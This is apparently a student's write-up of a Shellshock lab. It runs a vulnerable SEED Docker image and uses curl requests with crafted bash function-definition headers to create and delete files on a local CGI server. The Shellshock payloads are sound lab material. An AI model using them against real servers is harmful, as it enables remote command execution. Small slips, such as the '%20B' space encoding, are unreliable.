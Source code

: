# Module 2

-------


# Parte A

## Exercise 1
We went to this link https://hub.docker.com/r/jsimao/seed-shellshock and on the terminal we did the command:

    docker pull jsimao/seed-shellshock

### Ponto a)
After that, we ran the command below to start the docker
    docker run -it -p 8080:80 --name seed jsimao/seed-shellshock

### Ponto b)
Run these commands below in the terminal:
    http://localhost:8080/cgi-bin/getenv.cgi
    http://localhost:8080/cgi-bin/vul.cgi


----------

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

### Ponto b)
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

### Ponto c)
It doesn't work because that file needs root privilege and Apache runs on a user account, and not as root.

### Ponto d)
No because web url doesn't accept blank spaces. To pass blank spaces in the url data after the ?, we need to convert that "charactere" to the "%20B" code. The issue with that is that bash won't convert that code to a blank space. So no, it's not possible.


